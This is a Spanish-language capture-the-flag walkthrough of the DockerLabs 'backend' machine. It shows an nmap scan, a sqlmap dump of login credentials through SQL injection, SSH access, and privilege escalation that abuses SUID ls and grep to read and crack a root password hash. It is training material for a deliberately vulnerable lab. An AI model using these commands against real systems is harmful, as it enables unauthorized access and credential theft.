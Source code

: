 # backend

Maquina backend de [DockerLabs](https://dockerlabs.es)

Autor: [4bytes](https://github.com/4bytess/)

Dificultad: Fácil

![dock](../../../maquina-backend/img/dock.png)

## INTRUSION

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Aug 29 19:18:27 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-08-29 19:18:27 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 08:ba:95:95:10:20:1e:54:19:c3:33:a8:75:dd:f8:4d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPJ46ajVOvTej11m5rYDjs9KAJUbzC1iUdAloBEabTXlpaBY6grCd3EAwDWE33L9E7lC5k9G+g2gNtsrAq79dw=
|   256 1e:22:63:40:c9:b9:c5:6f:c2:09:29:84:6f:e7:0b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF6xGDDmewkLLpG4sexgnIhUkqp4QnkWeDoYn4PyDLS4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.61 ((Debian))
|_http-title: test page
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 19:18:36 2024 -- 1 IP address (1 host up) scanned in 8.82 seconds
```

Como vemos está abierto el puerto 80 por el que esta siendo usado por apache y el puerto 22 usado por openSSH.

**PUERTO 80:**

![80](../../../maquina-backend/img/80.png)

Como vemos parece ser una página bajo mantenimiento pero vemos un login, pero luego de probar credenciales basicas como `admin:admin` o `root:root` y no conseguir nada, pruebo en poner una comilla para ver si trata de SQLi, pero como no nos muestra ningún error sino una página distinta, podriamos confirmar o descartar la idea usando sqlmap. Para hacerlo solo ejecutamos esto:

```css
sqlmap -u "http://172.17.0.2/login.html" --forms --batch --dbs --dump
```

como vemos, nos devuelve esto:

```css
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+
```

Por lo que si trata de una SQLi, luego de probarlos en la página y que ninguno nos sirva, podemos intentar probar si alguno es válido para el puerto 22 de ssh, por lo que simplemente probamos uno por uno ya que son 3, y vemos que el usuario pepe si tiene acceso

## ESCALADA DE PRIVILEGIOS

Ahora tendremos que escalar privilegios siendo el usuario pepe, si nos fijamos no existe sudo, por lo que podriamos buscar en el SUID de la siguiente manera:

```css
find / -perm -4000 2>/dev/null
```

```css
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/ls
/usr/bin/grep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Como vemos, el binario `ls` y `grep` estan en el SUID, por lo que podriamos intentar leer la home de root usando ls de la siguiente manera:

```css
/usr/bin/ls /root
```

```css
/usr/bin/ls /root/   
pass.hash
```

viendo que hay un pass.hash podemos intentar leerlo con grep ejecutando esto:

```css
LFILE=/root/pass.hash
/usr/bin/grep '' $LFILE
```

```css
e43833c4c9d5ac444e16bb94715a75e4
```

como vemos, parece ser un hash md5, por lo que lo podemos meter en [crackstation](https://crackstation.net/):

![md5](../../../maquina-backend/img/md5.png)

Como vemos, parece ser que el hash tiene la contraseña `spongebob34`, ahora escalamos a root ejecutando `su root` y metiendo la contraseña:

![root](../../../maquina-backend/img/root.png)
